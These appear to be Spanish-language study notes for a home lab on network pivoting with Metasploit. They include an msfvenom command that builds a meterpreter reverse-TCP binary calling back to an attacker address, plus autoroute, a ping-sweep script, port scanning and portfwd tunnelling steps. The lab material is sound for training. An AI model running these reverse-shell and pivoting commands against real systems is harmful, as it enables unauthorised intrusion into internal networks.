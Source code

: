 [[Lab Pivoting, Tunneling - Synfonos]]
#pivoting 
### CONFIGURACIÓN LABORATORIO
Lo primero será ir a la parte de herramientas y Administrador de red: 
![[Pasted image 20240615202507.png]]

Y ahora vamos a la parte de redes NAT y creamos nuestra primera red con estos parámetros:
![[Pasted image 20240615202518.png]]

Por tanto, una vez creada esta red sobre la que haremos pivoting, veremos como configuraremos las 3 máquinas:
MÁQUINA KALI:
![[Pasted image 20240615202536.png]]

MÁQUINA LINUX INTERMEDIA:
![[Pasted image 20240615202541.png]]

MÁQUINA METASPLOITABLE FINAL:
![[Pasted image 20240615202547.png]]

De tal forma que la máquina kali tiene conectividad solo con la máquina Linux Mint; y la máquina Linux mint tiene conectividad tanto con la Kali como con la metasploitable:
![[Pasted image 20240615202556.png]]
### PIVOTING
Lo primero será ponernos a la escucha con el multi/handler, utilizando el siguiente payload:
```bash
set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
Y ahora con msfvenom generamos el payload:
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.32 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus
```

![[Pasted image 20240615202610.png]]

Lo ejecutamos dentro de la máquina objetivo:
![[Pasted image 20240615202616.png]]

Y en metasploit habremos recibido una sesión de meterpreter:
![[Pasted image 20240615202621.png]]

En este punto ya podemos listar las interfaces de red para poder establecer el tráfico o la tunelización con el comando ipconfig:
![[Pasted image 20240615202626.png]]

Ahora para tunelizar todo el tráfico de la máquina ubuntu a la máquina atacante, tenemos que poner la sesión de meterpreter en segundo plano, de tal forma que podamos listarla usando el comando sessions -l:
![[Pasted image 20240615202631.png]]

Ahora utilizamos el módulo de autoroute para enturar el tráfico:
```bash
use post/multi/manage/autoroute
```

![[Pasted image 20240615202637.png]]

Ahora vamos a detectar equipos conectados dentro de la red interna, por lo que usaremos el siguiente script de bash:
```bash
#!/bin/bash

for i in {1..255}; do
    timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
    if [ $? -eq 0 ]; then
        echo "El host 10.10.10.$i está activo"
    fi
done
```
Compartiéndolo desde nuestra máquina atacante:
![[Pasted image 20240615202643.png]]

Con la máquina víctima:
![[Pasted image 20240615202646.png]]

Lo ejecutamos y detectamos equipos:
![[Pasted image 20240615202702.png]]

Por ejemplo, vamos a escanear la IP 10.10.10.5, por lo que usamos el siguiente módulo para escanear sus puertos:
```bash
use scanner/portscan/tcp
```
Le pasamos la IP de la máquina objetivo (por ejemplo la 10.10.10.5) y vemos que nos devuelve los puertos abiertos:
![[Pasted image 20240615202707.png]]

Vamos a suponer que queremos llegar al puerto 21, por lo que tendríamos que hacer un port forwarding:
```bash
portfwd add -l 5000 -p 80 -r 10.10.10.5
```

